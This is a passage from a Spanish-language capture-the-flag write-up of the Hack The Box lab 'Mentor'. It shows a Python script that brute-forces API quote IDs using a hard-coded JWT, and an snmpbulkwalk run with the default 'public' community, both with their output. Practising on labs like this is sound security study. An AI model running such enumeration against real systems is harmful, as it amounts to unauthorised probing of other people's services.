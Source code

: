 Pensé que quizás existía alguna frase oculta que no se podía ver a simple vista, así que hice un script en python para intentar descubrirlas pero no sirvió.

```python
!/usr/bin/python3
import requests

JWT = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InBvaW50ZWQiLCJlbWFpbCI6InBvaW50ZWRAcG9pbnRlZC5jb20ifQ.JDca2XQVvnl1welcPDL02FYJalCOChzoLjRRSUgZsMg"
BASE_URL = "http://api.mentorquotes.htb/quotes/<ID>/"
BAD_QUOTE_LENGTH = 28

def brute():
    headers = {
        "Authorization": JWT
    }
    for i in range(200):
        r = requests.get(BASE_URL.replace("<ID>", str(i)), headers=headers)
        if (len(r.text) != BAD_QUOTE_LENGTH):
            print("[+] Quote with ID: " + str(i) + " exists")

if __name__ == "__main__":
    brute()
```

```shell
$ python3 brute.py
[+] Quote with ID: 0 exists
[+] Quote with ID: 1 exists
[+] Quote with ID: 2 exists
[+] Quote with ID: 3 exists
[+] Quote with ID: 4 exists
[+] Quote with ID: 5 exists
```

Nos reporta lo que ya sabíamos..

# SNMP Enumeration
Como con la API no he conseguido nada, voy a enumerar el otro puerto abierto a parte del SSH, el SNMP .

```shell
$ snmpbulkwalk -v 2c -c public 10.129.228.102
SNMPv2-MIB::sysDescr.0 = STRING: Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (267066) 0:44:30.66
SNMPv2-MIB::sysContact.0 = STRING: Me <admin@mentorquotes.htb>
SNMPv2-MIB::sysName.0 = STRING: mentor
SNMPv2-MIB::sysLocation.0 = STRING: Sitting on the Dock of the Bay
SNMPv2-MIB::sysServices.0 = INTEGER: 72
SNMPv2-MIB::sysORLastChange.0 = Timeticks: (8) 0:00:00.08
SNMPv2-MIB::sysORID.1 = OID: SNMP-FRAMEWORK-MIB::snmpFrameworkMIBCompliance
SNMPv2-MIB::sysORID.2 = OID: SNMP-MPD-MIB::snmpMPDCompliance
SNMPv2-MIB::sysORID.3 = OID: SNMP-USER-BASED-SM-MIB::usmMIBCompliance
SNMPv2-MIB::sysORID.4 = OID: SNMPv2-MIB::snmpMIB
SNMPv2-MIB::sysORID.5 = OID: SNMP-VIEW-BASED-ACM-MIB::vacmBasicGroup
SNMPv2-MIB::sysORID.6 = OID: TCP-MIB::tcpMIB
SNMPv2-MIB::sysORID.7 = OID: UDP-MIB::udpMIB
SNMPv2-MIB::sysORID.8 = OID: IP-MIB::ip
SNMPv2-MIB::sysORID.9 = OID: SNMP-NOTIFICATION-MIB::snmpNotifyFullCompliance
SNMPv2-MIB::sysORID.10 = OID: NOTIFICATION-LOG-MIB::notificationLogMIB
SNMPv2-MIB::sysORDescr.1 = STRING: The SNMP Management Architecture MIB.
SNMPv2-MIB::sysORDescr.2 = STRING: The MIB for Message Processing and Dispatching.
```